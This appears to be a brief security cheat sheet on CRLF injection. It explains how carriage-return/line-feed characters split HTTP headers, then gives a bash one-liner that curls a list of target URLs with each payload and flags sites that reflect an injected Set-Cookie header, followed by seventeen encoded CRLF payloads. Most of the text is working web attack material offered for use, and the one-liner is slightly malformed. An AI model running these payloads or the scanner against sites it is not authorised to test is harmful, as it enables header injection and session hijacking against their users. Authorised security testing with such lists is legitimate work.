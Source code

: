 # # CRLF

A Carriage Return Line Feed (CRLF) Injection vulnerability occurs when an application does not sanitize user input correctly and allows for the insertion of carriage returns and line feeds, input which for many internet protocols, including HTML, denote line breaks and have special significance.  
For example, Parsing of HTTP message relies on CRLF characters (%0D%0A which decoded represent \r\n) to identify sections of HTTP messages, including headers.

**onliner to Find CRLF injection**

while IFS=read -r targets do
cat lists/crlf_payloads.txt|xargs -I % sh -c "curl -vs --max-time 9 $targets/% 2>&1 |grep -HnriEq '< Set-Cookie: ?crlf'&& echo $targets 'seems to be vulnerable to %'>>crlf_results.txt||echo 'not vulnerable'$targets "
done < "$input"

**Payloads :**
/%%0a0aSet-Cookie:crlf=injection

/%0aSet-Cookie:crlf=injection

/%0d%0aSet-Cookie:crlf=injection

/%0dSet-Cookie:crlf=injection

/%23%0aSet-Cookie:crlf=injection

/%23%0d%0aSet-Cookie:crlf=injection

/%23%0dSet-Cookie:crlf=injection

/%25%30%61Set-Cookie:crlf=injection

/%25%30aSet-Cookie:crlf=injection

/%250aSet-Cookie:crlf=injection

/%25250aSet-Cookie:crlf=injection

/%2e%2e%2f%0d%0aSet-Cookie:crlf=injection

/%2f%2e%2e%0d%0aSet-Cookie:crlf=injection

/%2F..%0d%0aSet-Cookie:crlf=injection

/%3f%0d%0aSet-Cookie:crlf=injection

/%3f%0dSet-Cookie:crlf=injection

/%u000aSet-Cookie:crlf=injection
